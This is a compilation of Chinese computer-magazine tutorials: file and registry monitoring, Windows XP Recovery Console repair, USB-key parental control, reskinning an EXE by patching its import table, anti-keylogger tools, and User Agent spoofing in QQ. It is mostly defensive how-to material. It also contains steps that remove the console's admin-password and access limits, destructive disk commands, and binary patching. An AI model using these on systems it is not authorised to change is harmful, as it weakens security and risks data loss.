在 IFP 主窗口左侧点击“Add folder watch”按钮，在弹出的窗口（如图2）中可以添加需要监视的文件夹。在“Select Folder to Add”栏中点击浏览按钮，之后点击“Add”按钮即可。按照上述方法，可以添加所有需要监视的文件夹。在窗口底部勾选“Create”“Delete”“Modify”“Rename”项，表示当有程序在上述文件夹中创建文件、删除文件、修改文件、修改文件名时，IFP 可以自动记录相关操作数据；如果直接点击 OK 按钮，表示仅仅让 IFP 执行监视操作。如果点击“Next”按钮，在下一步窗口中的“Select Trigger”栏中点击浏览按钮，选择需要触发的程序，点击“Add”按钮将其添加到程序列表中。这样，当 IFP 监视到有其它程序在预设的路径中执行上述操作时，即可自动触发选定的所有程序。文件夹监控功能比较实用，例如可以将系统文件夹设置为监视目标，因为很多恶意程序都喜欢在系统文件夹中“做手脚”，因此可以使用 IFP 准确地探知恶意程序的行踪。

在 IFP 主窗口左侧点击“Add file watch”按钮，在弹出窗口内可以设置需要监视的文件；在“Select File to Add”栏中点击浏览按钮，选择所需的文件即可。在窗口底部可以设置监控的类型，点击“Next”按钮，可以设置触发的程序，具体的设置方法与上述完全相同。例如现在很多病毒感染文件时，首先会修改系统文件，因此对系统重要文件进行监控，这样可以及时地发现潜在的危险。


图1


图3


图2


图4

注册表在系统中占有重要的位置，因此也成了恶意程序攻……击的首要目标。因此，对注册表重要键值进行监控，就显得非常重要。在 IFP 主窗口左侧点击“Add registry watch”按钮，在弹出的窗口（如图3）中的“Registry Path”栏中输入需要监视的注册表路径，例如恶意程序大都喜欢修改注册表启动项，这样便于其自动运行，因此可以将“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run”等启动路径设置为监视目标，点击“Add”按钮完成添加操作。按照上述方法，可以添加任意需要监视的注册表路径。在“Watch Type”栏中勾选“Created”项，表示当其它程序在预设的注册表路径创建键值时，IFP 可以将相关数据记录下来。勾选“Deleted”项，表示当其它程序在预设的注册表路径删除键值时，IFP 可以将相关数据记录下来。

服务进行修改操作时，必然涉及到启动和停止服务的操作，因此您就可以通过 IFP 很容易发现相关信息，从而发现后门程序的行踪。

当设置好以上监视的对象后，在 IFP 窗口右侧显示您设置的所有监视信息（如图5）。在“Folder/File”列中显示具体的监视对象，包括文件夹、文件、注册表路径、系统服务等。在“Type”栏中显示不同监视对象的类型。在“Watch Type”列中显示监视的相关动作，在“Last Change”列中显示对应监视目标的上次修改时间，在“Log”列中显示相关的日志信息等。


图5

我们知道，Windows 的正常运行和各种系统服务息息相关，因此保护系统服务的“纯洁性”就显得格外重要。在 IFP 窗口左侧点击“Add service watch”按钮，在弹出窗口（如图4）中列出所有的系统服务，从中勾选需要监视的系统服务，在“Watch Type”栏中选择“Started”项，表示当预设的服务启动时，激发 IFP 的监视记录功能；勾选“Stopped”项，表示当预设的服务停止运行时，触发 IFP 的监视记录功能，因为很多后门程序都采用替换服务的办法，达到非法运行的目的。


图6

双击对应的监视对象，在弹出窗口（如图5）中可以显示该监视对象的详细日志信息，包括目标文件路径、动作类型、文件大小、修改时间、建立时间、相关的账户信息等。当您设置了大量的监视目标后，可以将其保存下来，这样不仅便于以后使用，也便于数据的移植操作，例如可以在其它电脑上安装 IFP 后，直接导入监视列表等。点击 IFP 窗口左侧的“Save watch”按钮，输入合适的文件路径，即可将其导出为独立的 XML 文件。点击 IFP 窗口左侧的“Open watch”按钮，选择之前导出的监视列表文件，就可以直接将其导入到 IFP 中了。

### 巧用恢复控制台，快速修复系统故障

在使用 Windows XP 过程中，很容易因为病毒入侵、误操作等原因导致系统无法正常启动。如果某些系统文件发生损坏，那么即使是安全模式也无法进入，这样使用一般的方法是无法修复上述系统故障的。为了避免重装系统的繁琐操作，完全可以使用 Windows XP 的系统控制台命令来“拯救”系统。

安装系统控制台的方法很简单：把 Windows XP 的安装光盘放入光驱，点击“开始”→“运行”，输入“X:\I386\WINNT32.EXE /cmdcons”（X 盘为光驱盘符），就可以将系统控制台增加到 Windows XP 的启动菜单中。重新启动电脑，在 Windows XP 启动菜单中选择“Microsoft Windows XP Recovery Console”项，即可进入 Windows XP 的控制台。

#### 一、轻松找回多重启动菜单

在 Windows XP 的系统盘根目录下存在一个名称为“Boot.ini”的文件，这是一个重要的系统配置文件。当本机上安装了多个操作系统后，就由该文件引导不同的系统进行启动。如果在 Windows XP 安装之后，又安装了其它低版本的 Windows 系统，或者因为误操作破坏了该文件，Windows XP 的启动菜单就会消失，甚至造成系统无法启动的故障。

进入系统控制台，在提示符下输入“bootcfg /list”命令，就会列出启动菜单中的所有项目；接着输入“bootcfg /scan”命令，则可快速扫描硬盘上的所有可用 Windows 安装文件；最后执行“bootcfg /rebuild”命令，将重现 Windows XP 安装进程，并让您选择添加到启动菜单中的具体项目。根据提示点击“Y”键，弹出“输入加载识别符”的提示，可以输入不同操作系统的菜单名称（例如“Microsoft Windows XP Professional”等）；回车后弹出“输入 OS 加载选项”，输入“fastdetect”即可，之后重新启动电脑就可以看到启动菜单了。

当然也可以执行“bootcfg /add”命令，直接向启动菜单中添加所需的菜单项目，具体步骤和上述基本相同。

#### 二、恢复系统重要文件

在使用 Windows XP 过程中，常常因为病毒破坏或者误操作等原因，造成系统重要文件丢失，从而导致系统无法正常启动。例如在系统启动时提示“NTLDR”或者“NTDETECT”文件无法加载，这是因为系统盘根目录下的重要文件受损。其实这些重要文件都保存在 Windows XP 安装光盘的“I386”文件夹中，在系统控制台提示符中输入“copy f:\i386\ntldr”命令（这里假设 f 盘为光驱盘符），回车后弹出是否覆盖的提示，输入“Y”键确认，接着执行“copy f:\i386\ntdetect.com”命令，即可将上述两个重要文件恢复到系统盘中，重启之后即可正确引导系统了。但是控制台中的“copy”命令只能复制单个文件，不能使用通配符。

如果 Windows XP 系统文件夹中的重要文件受损（例如某个 DLL 文件），同样会造成系统无法启动。这就需要从安装光盘的“I386”目录中提取对应文件，但在该目录中存在的都是压缩文件。对这些文件进行解压缩操作，需要使用“Expand”命令。例如在卸载某些软件时无意中删除了系统某个重要 DLL 文件，那么当 Windows XP 启动时就会提示找不到特定 DLL 文件。为此可以记下该文件名字（例如“UNTFS.DLL”），在控制台提示符下执行“Expand f:\I386\UNTFS.DL_ c:\windows\system\untfs.dll”，就可以将该文件提取并复制到系统文件夹中。注意安装盘中的对应压缩文件其后缀最后一个字符为“_”，其余和原文件完全相同。

如果所需文件存在于安装光盘中的特定 Cab 文件中，可以在提示符下执行命令“expand f:\i386\windll.cab /d /f:*.dll”，就可以查看“windll.cab”包中的所有 DLL 文件。之后执行命令“expand f:\i386\windll.cab /f:*.dll”，就可以将该 Cab 包中的所有 DLL 文件提取并复制到系统盘根目录中，然后使用 Copy 命令将其分别复制到对应文件夹中即可。

#### 三、修复系统引导扇区

当病毒侵入系统后，很容易对系统引导扇区进行破坏，造成系统无法正常启动。在控制台提示符下执行命令“fixboot”，在弹出的“确定要写入一个新的启动扇区到磁盘分区 X: 吗？”提示中点击“Y”键，程序即可将正确内容写入到引导扇区中，之后就可以正常启动系统了。当然，该命令还可以直接指定磁盘盘符，例如“fixboot d:”，向指定硬盘分区写入引导扇区内容。如果在控制台提示符下执行“fixmbr”命令，则可以修复硬盘的主引导记录。

#### 四、禁用或者激活系统服务

毫无疑问，系统服务在 Windows XP 中占有举足轻重的作用。但是当您在对系统服务进行优化操作，或者安装了第三方服务程序时，很容易对某些重要服务的配置信息进行修改，造成该服务无法正常启动，从而引发系统无法启动甚至崩溃。

在控制台中使用“Enable”和“Disable”命令，可以轻松激活或者关闭指定服务。首先执行“listsvc”命令，就会将系统中的所有服务和驱动程序显示出来，并列出它们各自的运行状态和注释信息，从中可以记下需要调整的服务名称。Enable 的命令格式为“Enable [服务名称] [启动类型]”，Disable 的命令格式为“Disable [服务名称]”。

这里的[服务名称]是希望启用/禁用的服务名称，[启动类型]表示不同的启动类型（包括 Service_disabled、Service_boot_start、Service_system_start、Service_auto_start、Service_demand_start 等）。这里以终端服务为例说明：在“故障恢复控制台”中运行“listsvc”命令，得到其名称为“termservice”。假设终端服务是启动的，输入“disable termservice”命令并回车，即可将终端服务禁用。如果该服务处于禁用状态，输入“enable termservice Service_auto_start”命令，即可将其激活。最后输入“Exit”命令退出控制台，重新启动电脑，该服务就能随系统自动运行了。

#### 五、轻松格式化分区

当您需要重新格式化硬盘时，如果觉得使用满屏英文的“Fdisk.exe”程序不够方便，可以使用相应的控制台命令轻松完成上述操作。在控制台提示符下输入“diskpart”命令，回车后在屏幕上出现全中文的图形分区界面，您可以根据系统提示直观地完成分区划分操作，之后可以使用“Format”命令完成对应分区的格式化操作。“Format”命令的使用方法很简单，在其后跟上对应盘符即可（例如“format c:”）。

此外，在控制台提示符下直接输入“chkdsk”命令，将创建和显示磁盘状态报告；如果执行“chkdsk”命令并在其后跟上盘符（例如“chkdsk d:”），就可以对指定磁盘进行检查。执行“chkdsk /p /r”命令，即使驱动器不在检查范围内也会执行彻底检查，同时在找到坏扇区时自动恢复可读取信息。

在默认情况下，恢复控制台对操作有很多限制，例如只能对系统文件夹进行存取，使用 Copy 等命令时不允许使用通配符，不允许将数据复制到移动存储器等。如何突破这些限制，更自由地使用系统控制台呢？在“开始”→“运行”中执行“gpedit.msc”程序，在组策略编辑器中依次展开“本地计算机策略”→“计算机配置”→“Windows 设置”→“安全设置”→“本地策略”→“安全选项”分支，在右侧窗口中双击“故障恢复控制台：允许自动系统管理级登录”项，在弹出的属性窗口（如图1）中选择“已启用”并点击确定按钮保存设置。这样以后进入控制台就不需要输入管理员密码了。


图1

#### 六、突破控制台使用限制

在默认情况下，系统控制台存在某些使用限制，例如进入之前必须输入 Administrator 管理员口令，只能对系统文件夹进行访问等。如何才能在控制台中对所有驱动器和文件夹进行访问呢？在上述窗口中双击“故障恢复控制台：允许对所有的驱动器和文件夹进行软盘复制和访问”项，在弹出的属性窗口中选择“已启用”项，保存设置后重启电脑进入控制台界面，利用“Set”命令即可开启许多特权。

- 输入命令“set allowwildcards=true”（等号前后不允许空格），表示允许在命令行中使用通配符。
- 执行“set allowallpaths=true”命令，表示允许使用 cd 命令进入所有文件夹。
- 执行“set allowremovablemedia=true”命令，表示允许将硬盘上的数据复制到优盘等移动存储器上。
- 执行“set nocopyprompt=true”命令，表示改写文件操作时禁止弹出提示信息。

当然，还有很多实用的 Set 命令可用于开放更多权限，这里就不一一说明了。

## 优盘巧变家长手中的“魔杖”

同事李阿姨家购置了一台新电脑，这给家庭生活带来了乐趣。不过让李阿姨烦恼的是，家里的孩子对电脑很着迷，在电脑前一玩就是很长时间，尤其在自己不在家的时候，孩子更是玩得“无法无天”。这样下去孩子的学习成绩肯定受影响，身体也会出问题。笔者向其推荐了 Snipeslider 这款独特的软件，可以让普通优盘摇身变成家长手中的“魔杖”：只有插上优盘，电脑才可以恢复正常运行状态；一旦拔下优盘，Snipeslider 就可以按照预设规则，只允许孩子在规定时间内使用电脑，同时只允许其访问家长设定好的网站。有了 Snipeslider 这个“法宝”，李阿姨的烦恼终于解除。

当安装好 Snipeslider 后，需要重新启动电脑。之后将所需优盘连接到电脑上。初次运行 Snipeslider 时，Snipeslider 可以自动检测可用优盘，并在其中写入密钥文件（名称为“snipeslider.key”）。Snipeslider 启动后隐藏在系统托盘中，对优盘使用情况进行监控；Snipeslider 采用了特殊运行机制，让用户无法强制关闭它，例如在任务管理器中无法发现其行踪等。

当您插入经其认证的优盘后，Snipeslider 可以进入“Parent Mode”（家长模式）状态，其标志是系统托盘中的 Snipeslider 图标颜色变成红色。在该状态下，Snipeslider 可以解除所有限制规则，让系统恢复正常运行，您可以不受约束地浏览网站，也没有任何使用时间限制。


图1

在家长模式下，可以添加各种控制规则。点击系统托盘中的 Snipeslider 图标，在其管理窗口（如图1）顶部编辑栏中输入目标网站名称，点击“Add”按钮，将其添加到可用网站列表中。您也可以点击“Site approval”按钮，Snipeslider 可以自动打开 IE 浏览器，您打开所需网站后，点击系统托盘中的手型图标，同样可以将当前网站添加到可用网站列表中。按照上述方法，您可以将孩子允许浏览的网站全部添加进来。在 Snipeslider 管理窗口中列出所有可用网站，点击“Delete”按钮，可以删除选定网站名称。

在“Limit internet usage”栏中勾选“Limit usage to”项，在其右侧拖动滑块，设置每天允许访问 Internet 的时间长度，超过该时间后就禁止访问网络。如果勾选“Ignore time limits settings at weekends”项，表示在周末取消所有限制规则。在“Take Action”栏中勾选“Lock the computer”项，表示触发以上规则后可以锁定电脑；选择“Close internet browsers”项，表示触发以上规则后关闭一切网页浏览器。


当您拔下经过 Snipeslider 认证的优盘后，Snipeslider 立即进入“Children mode”（孩童模式，图3），其特点是系统托盘中的 Snipeslider 图标变成蓝色。之后当孩子使用电脑时，就只能访问您设定的网站；当试图打开其它网站时，Snipeslider 会自动进行屏蔽。实际上，右击系统托盘中的 Snipeslider 图标，可以打开其自带的安全浏览器，使用者只能访问预设网站。

同时，Snipeslider 对孩子使用电脑的时间进行监控，当发现其使用时间超过预设规则后，即可彻底锁定电脑或者切断网络连接。即使孩子重启电脑，Snipeslider 也可以自动运行并继续执行锁定操作。只有家长插上经过 Snipeslider 认证的优盘后，才可以进入家长模式，解除所有限制规则。


除了可以限制孩子可访问的网站外，还可以点击“Time Limit”按钮。在弹出窗口（如图2）中的“Enable access between hours”栏中勾选“Every day”项，在其右侧的“From”栏中设置允许孩子使用电脑的起始时间，在“To”栏中设置终止时间。这样孩子就只能在预设时间段中使用电脑。

> （文中涉及的相关软件本期光盘已收录）

## EXE 程序美化

- 操作系统环境：Windows 7
- 目标程序：ImpREC FINAL 1.7
- 目标程序大小：573 KB
- 工具：LordPE、PE Explorer
- 所需文件：skin.dll、SkinH.dll、skinh.she

## Dintal【We-aC】

前言：很多时候我们拿到软件后发觉它的界面并不能满足视觉需求，菜鸟们大都想通过第三方软件进行修改。但是纵观现在网上出现的资源修改软件，对软件的美化作用相对较弱，例如 eXeScope 可以给 EXE 添加 XP 风格，而现在系统都已经到了要抛弃 Windows XP 的地步，单单加一个 XP 风格已经没法满足大家了。因此，本文希望贴出一种方法供大家参考。本方法会对程序的输入表进行修改，也仅仅是对程序的输入表进行修改，因此只要程序允许修改输入表，就可以使用下文介绍的方法了。下面美化开始吧……

### 菜鸟学堂


图1

我们的目标程序是 ImpREC FINAL 1.7，相信密界的小菜们大都认识这个软件，因为这个软件一般用于程序脱壳后修复输入表。如果你不认识这个软件，那说明你连壳都还没脱过。好了，说回来，先给大家看看修改前后的程序界面，这是修改前的：

这是最终修改完成的：


图2


图3

可以看到修改后的程序无论从排版、标题还是按钮等方面都有了变化。对于排版上的变化，我主要考虑到很多时候由于界面过于窄小导致程序信息显示不完整，因此我把原本竖长方形的界面修改为横长方形，这样看着会舒服点。当然这要看使用者习惯，大家可以根据自己的习惯和爱好去修改。修改方法很简单，打开 PE Explorer，载入程序，打开“资源”→“对话框”，就可以看到各个对话框了。对着想修改的对话框双击就会打开编辑框，具体位置请看图：

那我的修改方法就不细写出了，因为那些都没什么好说的，想怎么改就怎么改，标题的修改也是一样，不说了。下面直接说如何修改按钮风格。在这里我先说说原理，也很简单：通过修改程序输入表，使程序在加载时像加载皮肤插件一样加载皮肤。说到加载皮肤，就少不了我们要加载的皮肤文件。这里用到三个文件“skin.dll、SkinH.dll、skinh.she”，其中 skinh.she 是皮肤文件，相信大家应该有所了解。

也就是说，用这种方法修改程序后，如果我们需要再次更换皮肤效果，可以直接替换 skinh.she 即可。she 文件我会打包提供给大家，我提供的每个皮肤都兼容这种修改方法。当然如果是 DIY 控，也可以尝试自行制作 she 文件，用到的软件是 SHEditor。其实说白了，就是先做一张图片，里面包含程序各个部件的效果，然后用 SHEditor 把按钮、标题等效果一一对应好就可以了。上个图吧：


图4

接下来就到加载皮肤的过程了。在开始之前要确保上面的“skin.dll、SkinH.dll、skinh.she”三个文件与软件在同一目录下。首先打开 LordPE 的 PE 编辑器，选中并打开自己要修改的程序，弹出窗口后点“目录”。


图5

接着点击输入表位置的两个点按钮，然后在输入表位置点击右键“添加导入表”。

填上写好的 DLL 和 API 名字，然后点“+”按钮。


图6


图7


图8

这时你会发觉整个界面都变了，也就是效果可以正常添加了。这时候别忘了点确定并保存，否则效果是不会被保留的。


图9


图10


图11

这时再打开程序，我们发现效果已经出来了。试试把 she 文件换成其他的看看（文件名不能变），效果也成功加载上了。


图12

为了便于大家理解，最后我贴出上述文件的相关源码（vienna）：

```c
#include <windows.h>
#include "SkinH.h"
#pragma comment(lib, "SkinH.lib")

extern "C" __declspec(dllexport) void Hello()
```

```cpp
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        Hello();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        SkinH_DetachEx(NULL);
        break;
    }
    return TRUE;
}

void Hello() {
    // 7.2版效果都在这里加~
    SkinH_Attach();
}
```

小结：这个是 PEDIY 中比较基础但实用的程序美化方法，当然也有缺点，那就是程序体积会增大，同时增加三个文件。如果懂编程的朋友可以尝试把皮肤模块在内存中释放，又或者把它打包成单文件的版本，一切都是为了美观和简洁。以上方法献给那些不懂编程又想美化程序的菜鸟们，加油^_^

### 彻底斩断伸向键盘的“黑手”

郭建伟

现在各种病毒、木马、间谍软件等恶意程序活动很频繁，入侵的手段也多样化，也许在您不经意间，您的各种机密信息就可能会落入窃密者之手。恶意程序之所以能轻易盗窃您的机密数据，关键是其使用了键盘记录技术。当您在使用键盘输入重要数据时，这些恶意程序在后台悄悄记录下您的键盘动作，然后发送给窃密者。因此，及时发现并清除潜伏在系统中的键盘窃密程序，可以有效保护您的数据安全。实际上，几乎所有的木马程序都提供了键盘记录功能，只要检测到键盘窃密程序的行踪，就可以顺藤摸瓜将木马程序彻底清除。

这些程序是否正常，通过仔细检测可以很容易发现来历不明的程序。

### 使用 ID AntiKeylogger 保护键盘

ID AntiKeylogger 安装后，将自身注册成名称为“Anti Keylogger”的系统服务，可以跟随系统自动运行。通过对内存进行扫描，可以发现隐藏很深的键盘记录程序。它可以阻止可疑程序捕获键盘输入、记录剪切板数据、探测窗口文本内容等操作。ID AntiKeylogger 的使用方法简单：在系统托盘中的 ID AntiKeylogger 图标右键菜单中点击“Check Memory”项，ID AntiKeylogger 即可对内存中所有的进程进行检测。之后点击 ID AntiKeylogger 右键菜单的“KeyLogger List”项，在打开的窗口（如图1）中显示所有和键盘记录相关的程序。


图1

例如以 PC Spy Keylogger 为例进行说明，这是一款功能强大的键盘记录程序。ID AntiKeylogger 可以很容易地将其检测出来，在上述列表中很容易发现其行踪，其对应的程序路径是“c:\program files\psktool\keyloggerdll.dll”。选中可疑程序项，在窗口底部显示其调用的钩子函数、检测时间、活动状态等数据。

如何禁止可疑程序的活动呢？在其右键菜单中点击“Disable”项，ID AntiKeylogger 即可将其设置为禁用状态，该程序就无法继续拦截键盘操作了。当然，之后最好重新启动系统，让可疑程序彻底失去活力。对于正常程序，可以在其右键菜单中点击“Forget”项，使其从监控列表中消失，这样可以避免过多程序干扰分析工作。

### 使用 Anti-keylogger 保护键盘

Anti-keylogger 运行后将自身隐藏在系统托盘中，之后即可对系统进行全面监控，来探测可疑的键盘记录程序。Anti-keylogger 采用双进程保护模式，可以有效抗击可疑程序对其的非法关闭操作。当 Anti-keylogger 发现可疑程序试图拦截键盘输入时，即可自动对其拦截，同时在屏幕右下角弹出提示面板。

双击 Anti-keylogger 图标打开其管理窗口（如图2），在窗口左上角显示一个不断转动的雷达图标，表示其处于监控之中；如果点击“Stop”按钮，表示停止其监控操作。在窗口左侧点击“Protection policy”按钮，在右侧窗口的“Auto-detected modules”面板中显示所有检测到的键盘记录程序，直接点击对应的程序项，可以使其在激活和禁止之间切换。当其显示图标为红色叉号时，表示其处于禁用状态。

在窗口左侧点击“Options”按钮，在右侧窗口（图3）中勾选“Switch the clipboard protection on”项，激活剪切板保护功能，防止恶意程序窃取剪切板数据。为了防止别人随意更改 Anti-keylogger 配置信息，可以勾选“Use password protection”项并输入密码。这样没有该密码，将无法修改 Anti-keylogger 配置信息。


### 使用 Keylogger Detector 保护键盘

Keylogger Detector 是一款体积小巧的安全软件，在其运行后，可以对所有进程进行扫描，检测所有设置键盘钩子的进程。之后在其主窗口（如图4）的“Process List”列表中列出所有相关进程信息，包括安全标志、PID、键盘钩子、程序路径、进程描述等内容。在工具栏上点击“Refresh”按钮，可以刷新该列表。

Keylogger Detector 可以判断进程的安全级别：在对应进程的“Flag”列中显示绿色图标，表示该进程是安全进程；对于可疑进程，会在其“Flag”列中显示灰色图标。选中对应进程，在“Process Information”面板中显示其详细信息，在“Module List”面板中显示其中包含的所有模块。根据以上信息，可以很容易发现潜伏在内存中的可疑程序。在“Process List”列表中选中可疑进程，在其右键菜单中点击“Stop Process”项，可以中止该进程。


### 使用 Anti-Keylogger Elite 保护键盘

Anti-Keylogger Elite 使用的是基于规则的保护模式。在其主窗口中点击菜单“Window”→“Options”项，在设置面板（如图5）中勾选“Load Anti-Keylogger Elite at Windows Startup”项，可以让其跟随系统启动。勾选“Show balloon tip notification”项，表示当 Anti-Keylogger Elite 检测到可疑程序活动时，会在屏幕右下角弹出提示框，提醒用户该可疑程序试图安装键盘钩子。

在“Block”栏中：
- 选择“Ask User”项，表示当前检测到相关程序试图设置键盘钩子时，会弹出询问窗口，让用户决定是否放行。
- 选择“BLOCK ALL—except Microsoft certificate OS files”项，表示除了系统核心进程外，Anti-Keylogger Elite 将自动拦截所有和键盘记录相关的程序。
- 选择“BLOCK ALL—for high security environments”项，表示采用安全级别较高的拦截方法。

这里以“Ask User”为例。为了防止别人随意更改 Anti-Keylogger Elite 配置，可以勾选“Load Password Protection”项，点击“Change user name and password”按钮，为其设置管理密码。

Anti-Keylogger Elite 还提供软键盘功能，按下“Ctrl+Alt+K”组合键可以调出软键盘。当使用软键盘输入数据时，可疑程序就无法记录键盘动作了；在“Secure Keyboard Hot Key”中可以更改软键盘激活热键。

“View”→“Style”→“Style 1”，可以打开列表的全部显示列，包括 Keylogger、Password Thief、Screen shooter、Clipboard logger 等。


图7

Anti-Keylogger Elite 不仅可以检测对应程序的键盘记录动作，还可以判断和拦截其破解带星号密码、屏幕抓图、窃取剪切板数据等操作。在程序列表中双击某个程序，打开规则修改窗口，在“Threat”面板（如图8）能够设定该程序所属规则。您可以对该程序的“Keylogger”（键盘记录）、“Password Thief”（破解带星号密码）、“Screen shooter”（抓屏操作）、“Clipboard logger”（记录剪切板）等规则进行配置，在对应规则右侧的“Action”列表中可以为选定规则指定监控动作，包括“Allow Always”（总是允许）、“Block Always”（总是阻止）、“Ask User Always”（弹出询问窗口）等权限。

之后当 Anti-Keylogger Elite 检测到可疑程序活动时，即可弹出询问窗口（如图6），在“Program”栏中显示程序路径，在“Description”栏中显示该程序描述信息。对于正常程序，点击“Allow”放行；对于非法程序，最好点击“Deny”按钮进行拦截。如果勾选“Don’t ask again”项，表示以后对该程序执行同样操作。


图6


图8

当操作完成后，Anti-Keylogger Elite 会自动对该程序创建规则，这样您可以针对不同程序分别创建检测规则。点击菜单“Window”→“Modules”项，在弹出窗口（如图7）中显示所有规则项目。对于 Windows 的核心进程，可以在其左侧显示特殊标记。在规则表中的右键菜单中选择……

### 使用 AntiLogger 保护键盘

AntiLogger 安装之后需要重启系统。在系统托盘中双击 AntiLogger 图标，在其管理窗口（如图9）左侧“保护”栏中点击“反按键记录”项，在右侧窗口中点击“开始”按钮来激活反键盘记录功能；点击“停止”按钮，可以结束键盘输入保护功能。

按照同样方法，可以在“保护”栏中分别控制反屏幕记录、反摄像头记录、反剪切板记录、系统保护等功能的激活或关闭状态。其中系统保护功能也很实用，主要用来保护您信任的系统组件免遭非法破坏，例如 DLL 注入、安装 Rootkit 后门程序、设置系统钩子、修改注册表、非法加载内核驱动、修改物理内存等。在默认状态下，所有保护功能全部处于打开状态。

在窗口上部点击“设置”按钮，在设置窗口（如图10）的“安全设置”面板中的“Microsoft 签名”栏中可以设置是否让经过微软签名的程序顺利运行；在“所有其他签名”栏中可以设置是否允许其他签名程序顺利运行；在“未签名”栏中决定是否允许未签名程序顺利运行。如果在上述栏目中不允许目标程序顺利运行，则必须经过您的认可后才允许其运行。

在“阻拦的动作”栏中建议选择“阻止所有的动作并中止应用程序”项，可以最大限度保护系统安全。点击“普通模式”按钮，可以满足一般使用要求；对于高级用户来说，点击“专家模式”按钮，可以获得更宽松的监控环境。在“记录设置”面板中选择“记录所有活动”项，在“最大记录条数”栏中可以设置最大记录条数（默认为100条）。点击“保存所有记录”按钮，可以导出记录文件。在“密码设置”面板中点击“创建密码”按钮，可以为 AntiLogger 设置密码保护功能。

接下来试一试 AntiLogger 的威力。例如当恶意程序试图拦截键盘输入时，AntiLogger 即可监控并拦截其非法操作，并在屏幕右下角弹出安全警报窗口（如图11），其中显示目标程序名称、开发者、活动类型名称和代码（这里为“按键记录器”）、危险等级等内容。对于正常程序，点击“允许”按钮放行即可；对于可疑程序，最好点击“阻止”按钮禁止其执行该操作。如果勾选“创建规则并记住我的选择”项，AntiLogger 即可为本次拦截操作创建安全规则，以后再次遇到同样情况时，AntiLogger 可以按对应规则处理。

对于其他非法记录动作，AntiLogger 同样可以执行监控和拦截。如果您想暂停 AntiLogger 监控功能，可以在系统托盘 AntiLogger 图标的右键菜单中点击“停止保护”项。在弹出的认证窗口中必须输入预设字符串，才可以中止保护功能，这样可以防止被非法关闭。以后可以随时通过上述菜单中的“开始保护”项重新激活其保护功能。


#### 为浏览器设置键盘“保镖”

当您在浏览器中打开邮箱、论坛、在线银行等登录网页时，最担心的事情就是潜伏在系统中的可疑程序拦截您在 IE 窗口中的输入信息。使用 KeyScrambler 这款独特的浏览器插件，就可以为浏览器装上键盘输入保护器，让可疑软件无法探测您在 IE 中的输入内容。

KeyScrambler 同时支持 IE 和 Firefox 浏览器。其运行在键盘驱动层面上，可以在系统底层加密您的键盘输入信息，使可疑软件使用的键盘钩子彻底失效。当您在 IE 中输入数据时，IE KeyScrambler 立即对其进行加密处理，随后将加密后的信息传送到 IE 中，因此可疑程序只能记录一堆无法识别的字符。当加密后的数据在 IE 中执行提交操作时，KeyScrambler 即可对加密信息进行解密处理，这样点击提交按钮后，IE 即可将正常的登录信息发送给远程服务器了。

KeyScrambler 安装需要重新启动系统。之后当启动浏览器后，即可自动激活 KeyScrambler。在系统托盘的 KeyScrambler 图标右键菜单上点击“KeyScrambler On”项，表示激活其键盘保护；点击“KeyScrambler Off”项，表示取消其保护功能。点击“Options”菜单项，在设置窗口（如图12）的“General”面板中勾选“Enable KeyScrambler Protection”项，激活其保护功能。在“On/Off Hot Key”栏中可以设置激活/关闭热键（默认为“Ctrl + Shift + K”）。


图13


图12

在“Display”面板（图13）中设置 KeyScrambler 的加密状态栏显示位置。在默认情况下，当打开登录网页时，会在网页左上角显示 KeyScrambler 的保护信息。

### 菜鸟学堂

### QQ空军兵——技巧“集结号”

Hx小龙（白雪龙）

很长一段时间告别黑X，其实心中有万分的不舍，这些都是奈何生活所迫。这段时间中我相信大家在黑X的陪伴下技术又上了一个不小的层次。在我告别网络这段时间中，新鲜好玩的QQ技巧也可谓层出不穷，所以今天我就来轮番吐槽——那些年，我们一起追过的QQ技巧。

莫笑。。。

该方法成功的几率很大，操作起来也简单易懂，关键是此方法在被爆出很长时间以后居然还未遭到腾讯封杀，这实在难能可贵。实现苹果标识符的原理是通过修改 User Agent 来实现的。顾名思义，User Agent 是中文“用户代理”的简称。这个名词我相信大家已经不陌生了，虽然我们在计算机中很少见到它的身影，但是在移动互联设备中它可是层出不穷的哦！例如我们的 UC 浏览器中，它就是个常客。

简单地说，User Agent 即用户代理，是指浏览器。它的信息包括了硬件平台、系统软件、应用软件和个人偏好等等。当然大家并不要把 User Agent 仅仅狭隘地理解为它只是浏览器的代名词，因为它同时还可以用来指代搜索引擎。

### 一、QQ空间出奇兵，手机型号各种换

Subject 1：今天第一天上网，就看到了 QQ 空间的一个网友用起了苹果系列的神兵利器。如图01所示，因为要保护该人隐私，所以图片做了一定处理。从图中我们可以很清晰地得知该用户使用了苹果旗下的两款设备“iPhone、iPad”分别发送说说，“好不神气的说！”。我们这等众小菜在底下早已经垂涎欲滴了，iPhone、iPad 这些天国神器对于我们大多数人来说一直都是可望而不可及。好吧！看来只能曲线救国了。（图1）


从图中得知设备的标识符是“iPad触屏版、iPhone触屏版”。看到这几个关键字，我随即就想到了前段时间爆出已久的模拟 iPhone 客户端这个漏洞“段子”。翻阅前几期黑X也没有发现有作者和大家分享，遂就在这里为大家抛砖引玉一番。

这里我们需要用到火狐浏览器，当然其他浏览器也可以实现，这个在下文我还会做简单介绍。

首先我们打开火狐浏览器，在浏览器菜单栏的“工具”选项下找到“附加组件”，或者直接使用快捷键 Ctrl+Shift+A 调出，如图02所示。接下来我们在组件搜索栏中搜索“user_agent_RG 1.0”（文件会打包），或者在该项目下的快捷工具处。

使用本地导入组件的功能进行本地导入，如图03所示安装成功我们将选项卡切换至“扩展”栏目，如出现如图04所示的项目则代表安装成功，之后我们重启浏览器。第三步，在火狐浏览器中我们选择“工具”菜单选项下的“user_agent”插件，在其后的选项中就可以选择属于我们自己的模拟标识符了，如图05所示。

没有手机的小菜还可以点亮微博的“手机达人”图标等等，如图10所示，不过这些就有待大家去发觉和实验了。


我们可以依次看到iPhone、iPad、Android的三个模拟客户端，这时候我们只要勾选上我们心仪的那个UA即可，例如这里选择了iPad，接下来在地址栏键入网址http://iphone.qq.com，如图06所示。


